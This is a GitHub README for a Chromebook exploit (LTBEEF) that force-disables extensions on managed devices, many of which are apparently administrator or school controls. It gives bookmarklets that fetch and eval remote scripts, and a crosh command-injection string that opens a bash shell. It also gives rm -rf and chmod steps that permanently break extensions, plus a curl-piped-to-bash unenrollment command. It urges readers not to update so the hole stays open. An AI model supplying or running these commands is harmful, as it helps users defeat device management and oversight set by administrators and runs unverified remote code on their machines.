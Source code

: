 # ext remover

![image](https://user-images.githubusercontent.com/58097612/191354621-bf7ff072-b9d7-46b5-994a-4d2adbf0e4f3.png)

Bookmarklet exploit that can force-disable any extension installed on Google Chrome. Also known as LTBEEF.

**DO NOT UPDATE YOUR CHROMEBOOK! This exploit has been patched in versions 106 and above, so do not update!** If you version is above 106, [try this method](https://github.com/3kh0/ext-remover#v106-and-above)

If you need any help, please go here: https://github.com/3kh0/ext-remover/discussions

## Instructions

Here are the instructions to using this exploit! There are two ways, using the GUI and using the ids, the GUI method is better.

### Ingot (GUI)

Credit to Nebelung for this, [link to the github](https://github.com/FogNetwork/Ingot)

For easy setup go the the website at https://fognetwork.github.io/Ingot

1. Show your bookmarks bar with `ctrl + shift + b`
2. Right click on the bar and choose `Add Page`
3. Set the name to `Ingot` and the URL to the code below or [here](https://github.com/FogNetwork/Ingot/blob/main/bookmarklet.js)

```js
javascript:(function () {var a = document.createElement('script');a.src = 'https://cdn.jsdelivr.net/gh/FogNetwork/Ingot/ingot.min.js';document.body.appendChild(a);}())
```
**If this helped please give me a star!**

![image](https://user-images.githubusercontent.com/58097612/193318485-5267cd59-fb65-45a5-ad28-7f068bbce974.png)

### Using the GUI

Credit to CompactCow#4717 for the amazing UI!

1. Right click on the bar and choose `Add Page`
1. Set the name to `GUI` and the URL to the code below or [here](https://github.com/3kh0/ext-remover/blob/main/gui.js)
```js
javascript:fetch(`https://raw.githubusercontent.com/3kh0/ext-remover/main/exploit.js`).then(data=>{data.text().then(text=>{eval(text)})});
```
3. Visit https://chrome.google.com/webstorex. (This is a 404 page, and that is ok.)
4. Click the bookmark (Make sure you are on the page above!)
5. Use the menu to toggle your extensions!

**If this helped please give me a star!**

![image](https://user-images.githubusercontent.com/58097612/190276894-fc492c5c-b0ce-4943-ae56-603f75634618.png)

### Using IDs

#### Disabling 

1. Visit chrome://extensions and on the extension you want to disable click on Details
2. Copy the text in the URL after the `?id=`
> For example if you have this URL: `chrome://extensions/?id=echoontop` you would only copy `echoontop`
3.  Go to the file [`bookmark.js`](https://github.com/3kh0/ext-remover/blob/main/bookmark.js) and copy everything and create a new bookmark and use the code you copied as the Page URL
4. Visit https://chrome.google.com/webstorex. (This is a 404 page, and that is ok.)
5. Click the bookmark (Make sure you are on the page above!)
6.  Put the ID you copied into the text box.

You're done! The extension should now be disabled.

**If this helped please give me a star!**

#### Enabling

1. Visit chrome://extensions and on the extension you want to enable click on Details
2. Click View in Chrome Web Store
3. You will see a banner at the top of the page that says This item has been disabled in Chrome. Enable this item
4. Click on Enable this item

You're done! The extension should now be enabled.

**If this helped please give me a star!**

Credit bypassi for finding and making this exploit!

## How does it work
Well, it's pretty basic. It finds extensions and displays them on this page with some toggle switches.

![image](https://yeeteeyt.github.io/exploitbranch.png)

then, it detects when the toggle switch is toggled, and for what extension, then compiles a message to chrome that says "hey, turn this off for me". Chrome, mistaking this for the webstore complies.

![image](https://yeeteeyt.github.io/exploitgrid.png)

## v106 and above

This exploit details another way to permanently delete extensions. Once done, you can update or restart your chromebook and the extensions will stay gone until you powerwash.

You need a usb for downgrading, and rudimentary knowledge of bash is recommended

STEPS:
1. Downgrade to any version below 101. Instructions are in [Chrome100.dev](https://chrome100.dev).
2. Hit `ctrl+alt+t` to open a crosh window. If it’s blocked by extensions, use LTBEEF. If it’s policy blocked (“The person who set up this computer has chosen to block this site”) you can try downgrading to a version below 90, where crosh had a different URL.
3. Type in `set_cellular_ppp \';bash;exit;\'` and hit enter. 
4. You now have access to a bash shell, logged in as chronos. More information about the permissions of this shell is at the bottom.
5. Type `rm -rf ~/Extensions/*`. **THIS WILL BREAK EVERY EXTENSION ON YOUR CHROMEBOOK.** If there are extensions you want to keep, they can be selectively removed by ID using `rm -rf ~/Extensions/InsertIdHere`
6. Run `chmod 000 ~/Extensions`. This marks the extension folder as read only, stopping it from updating in the future or any new extensions from being installed.
7. You can now restart chrome, allowing it to update to the latest version. Once rebooted onto the latest version, all removed extensions will have the default icon and won’t function at all.

**Things you can’t do**
1. Run sudo or su into root. There might be ways to privilege escalate to root using disclosed chromium bug reports, but at the moment I have not gotten any of them to work on managed chromebooks
2. Enable dev mode or use dev mode things
3. Write to certain protected folders
4. Install packages
5. Install your own extensions. There is no way that known of (right now) to do that, so don’t ask. Please suggest any ideas.
6. Modify an existing extension. Extensions are checksummed before running, so any modification will result in chrome thinking the extension is “corrupted” and trying to redownload it, failing if the directory is marked readonly

If anyone knows some fun commands for the bash shell to break things even further, let me know!

Thanks to CoolElectronics for finding this amazing trick, trent:gra.im and justinchrm for helping with some parts, and the discoverer of the original bash shell exploit found here https://bugs.chromium.org/p/chromium/issues/detail?id=1329945

### Full unenrollment

**Note: This only works on version 101!**

Run the following commands in crosh:
```bash
set_cellular_ppp \';bash;exit;\'
bash <(curl https://coolelectronics.me/unenroll101.sh)
```

